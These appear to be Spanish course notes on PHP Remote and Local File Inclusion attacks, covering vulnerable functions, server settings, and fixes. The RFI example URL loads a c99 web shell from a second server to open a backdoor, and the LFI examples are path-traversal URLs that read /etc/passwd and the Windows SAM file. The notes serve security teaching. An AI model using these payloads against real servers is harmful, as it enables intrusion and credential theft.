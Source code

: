 #### RFI: Remote File Inclusion

Veamos en qué consiste un ataque de inclusión de ficheros remotos (RFI):
- Objetivo: Ejecución de código remoto dentro de la aplicación vulnerable. Al igual que un fichero se puede cargar de forma local para incluirlo en la Web, podríamos cargar uno con código malicioso. Ojo con los lenguajes interpretados. Ejemplo: http://www.mipagina.com/mostrar.php?pag=paginaMaliciosa.php
- Funciones vulnerables que no se deben utilizar en el código:
    - include($pag)
    - require($pag)
    - include_once($pag)
    - require_once($pag)
- Configuración vulnerable que no se debe utilizar en el servidor:
    - allow_url_fopen()
    - allow_url_include()
    - register_globals()
- Ejemplo de RFI: Un ejemplo un poco más complejo y peligroso es el de que un cracker envíe una petición a un servidor 1 con `http://server1/index.php?page=http://server2/c99.txt` donde le estamos diciendo que ejecute el código del fichero c99.txt de un segundo servidor. Ese código en concreto se ejecutará el servidor 1 y dejará abierta una backdoor. Como respuesta a la petición del cracker le llegará por parte del servidor una webshell con la que podrá conseguir control total del servidor 1. 
- Otro ejemplo: Si usamos la MV de antes > File Inclusion y cambiamos la url del page por marca.com y entonces vemos que se nos redirige a esa página. Incluso podemos ejecutar el c99 si lo buscamos en github y lo insertamos ahí.
- Solución: Evitar las funciones y configuraciones antes mencionadas.

#### LFI: Local File Inclusion

- Objetivo: Incluir dentro de la página Web un fichero local (con permiso de lectura) del usuario con el que se ejecuta el servidor de aplicaciones Web. Esto pasa tanto con lenguajes compilados como interpretados.
- Sitios expuestos:
    - Páginas web de plantillas: Cambia un fichero desde otro y da formato.
    - Páginas de descargas: Recibe un parámetro con el nombre del fichero a descargar y lo manda al cliente.
- Ejemplo de explotación: Accedemos a un fichero del sistema subiendo directorios ..\ o ../ según sea Windows o Linux más el nombre del fichero. 
    - Si tenemos una web cuyo uso normal sería subir la página deportes.php -> http://www.victima.com/noticias/detalle.php?id=4&tipo=deportes.php
    - La podemos cambiar por archivos como http://www.victima.com/noticias/detalle.php?id=4&tipo=../../../../etc/passwd
    - http://www.victima.com/noticias/detalle.php?id=4&tipo=../../../etc/hosts
    - http://www.victima.com/noticias/detalle.php?id=4&tipo=..\..\..\Windows\repair\SAM
- Ejemplo concreto: Nos vamos a la MV de antes > File Inclusion y cambiamos la url y ponemos de ruta ../../ un montón de veces para asegurarnos subir hasta la raíz del sistema y luego /etc/passwd. 
- Soluciones:
    - Montar el servidor con el mínimo privilegio posible, limitando acceso a la propia carpeta.
    - Hay que proteger los ficheros por medio de la programación no sólo por los permisos del servidor. A estos se puede acceder de manera:
        - Directa -> poniendo la ruta. Por tanto eliminamos los \ y /
        - Indirectamente -> poniendo ../ o ..\ por tanto eliminamos o escapamos los puntos y las barras.
